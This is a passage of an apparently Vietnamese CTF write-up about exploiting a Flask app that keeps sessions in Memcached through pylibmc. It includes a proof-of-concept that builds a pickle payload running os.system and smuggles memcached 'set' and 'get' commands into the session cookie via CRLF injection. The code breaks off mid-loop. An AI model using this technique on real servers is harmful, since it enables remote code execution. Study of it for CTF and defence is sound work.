 ```
        session["uicolor"] = uicolor
    
    return redirect("/")


@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)

```

- Mình làm bài Leader board ở giải braekerCTF thì thấy khá giống nhau mỗi tội bài kia phải brute-force app secret key. 
- Như ta có thể thấy sever config SESSION-Memcache lưu ở cồng `127.0.0.1:11211` bằng thư viện `pylibmc` đôi nét về `pylibmc`:

- Pylibmc là một gói thư viện Python dùng để tương tác với memcached, một hệ thống lưu trữ cache phổ biến. Pylibmc cung cấp các phương thức để kết nối, thao tác và quản lý dữ liệu trong memcached từ Python một cách dễ dàng và hiệu quả. Điều này cho phép các ứng dụng Python tận dụng các tính năng mạnh mẽ của memcached để cải thiện hiệu suất và khả năng mở rộng của họ.

- Có middlerware check nếu session > 86 thì gán lại session với 86 kí tự:
```
@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]
```

- Route /set thì sẽ lấy `uicolor` và nếu tồn tại thì gán `session["uicolor"] = uicolor` và route / sẽ lấy giá trị ` uicolor = session.get("uicolor", "#f1f1f1")` và hiển thị màu cho template, nhìn vào thì cũng đoán được lỗi ở thư viện `pylibmc`.
- Google một chút ta ta biết được là có lỗ hổng deserialize trong quá trình giải mã session của python flask.
![image](https://hackmd.io/_uploads/S1IFarNCT.png)

* POC: 

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('ping -c 1 localhost')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")
```